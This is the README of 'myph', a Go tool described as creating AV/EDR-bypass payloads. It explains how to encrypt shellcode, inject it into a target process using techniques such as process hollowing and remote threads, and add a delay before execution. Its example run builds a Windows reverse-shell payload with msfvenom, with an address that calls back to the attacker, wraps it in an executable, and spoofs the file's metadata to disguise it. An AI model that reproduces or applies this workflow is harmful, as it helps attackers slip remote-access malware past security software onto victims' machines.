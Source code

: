# myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```
Usage:
  myph [flags]
  myph [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  spoof       spoof PE metadata using versioninfo

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time in seconds before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, CRTx, CreateFiber, ProcessHollowing, CreateThread, Syscall) (default "CRT")
  -v, --version              version for myph

Use "myph [command] --help" for more information about a command.
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- Syscall
- CreateFiber
- CreateThread
- Process hollowing
- CreateRemoteThread
- CreateRemoteThreadEx

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example run

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe

# add some program metada
./myph spoof --pe something.exe --file .github/test-data/example.json
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
